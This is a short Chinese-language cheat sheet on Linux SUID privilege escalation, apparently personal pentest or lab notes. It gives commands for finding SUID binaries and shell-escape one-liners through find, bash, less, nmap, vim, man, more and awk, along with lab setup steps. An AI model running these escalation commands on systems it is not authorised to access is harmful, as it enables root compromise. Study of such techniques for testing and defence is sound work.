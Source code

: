# 提权查看
https://gtfobins.github.io/ 
# NFS提权
# suid提权
首先查看带有suid权限的文件

    find / -perm -u=s -type f>a.txt
    find / -perm -u=s -type f>a.txt
    find / -user root -perm -4000 -print 2>/dev/null
    find / -user root -perm -4000 -exec ls -ldb {} ;
查看有suid提权漏洞的文件，目前已知的可用来提权的linux可行性文件列表如下

    Nmap
    Vim
    find
    Bash
    More
    Less
    Nano
    cp

# 设置环境
    find / -name find | xargs ls -F
`查找后缀有*的可执行文件`

    chmod u+s /usr/bin/find
    ls -al /usr/bin/find
# find
    chmod +s /usr/bin/find
    find . -exec 'whoami' \;
    find . -exec /bin/sh -p \; -quit
# bash
    chmod +s /bin/bash
    bash -p
# less
    chmod +s /bin/less
    less /etc/passwd
    !/bin/sh
# nmap
## 老版本
    chmod +s /usr/bin/nmap
    nmap --interactive
# vim
## 1

    chmod +s /usr/bin/vim.basic
    vim /etc/passwd(改成跟root一样)
## 2(ubuntu16未成功)

    vim.tiny
    :set shell=/bin/sh
    :shell

# man(ubuntu16未成功)

    man passwd
    !/bin/bash
# more(ubuntu16未成功)

    more /etc/passwd
    !/bin/bash

# awk(ubuntu16未成功)

    awk 'BEGIN {system("/bin/bash")}'